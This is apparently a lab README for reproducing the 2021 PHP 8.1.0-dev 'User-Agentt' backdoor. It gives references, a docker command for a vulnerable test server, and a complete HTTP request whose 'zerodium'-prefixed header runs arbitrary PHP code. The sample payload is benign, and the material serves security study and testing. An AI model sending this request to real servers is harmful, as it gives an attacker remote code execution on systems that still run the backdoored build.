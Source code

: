 # PHP 8.1.0-dev User-Agentt Backdoor

[中文版本(Chinese version)](README.zh-cn.md)

PHP version 8.1.0-dev was implanted with a backdoor on March 28, 2021, but the backdoor was quickly discovered and removed. When this backdoor is present on a server, an attacker can execute arbitrary code by sending a **User-Agentt** header.

References:

- https://news-web.php.net/php.internals/113838
- https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d
- https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a

## Vulnerable Environment

Start a PHP 8.1-dev server with the backdoor.

```
docker compose up -d
```

After the environment is started, the service runs at ``http://your-ip:8080``.

## Vulnerability Reproduce

Send the following request to execute the code `var_dump(233*233);`:

```
GET / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
User-Agentt: zerodiumvar_dump(233*233);
Connection: close


```

![](1.png)
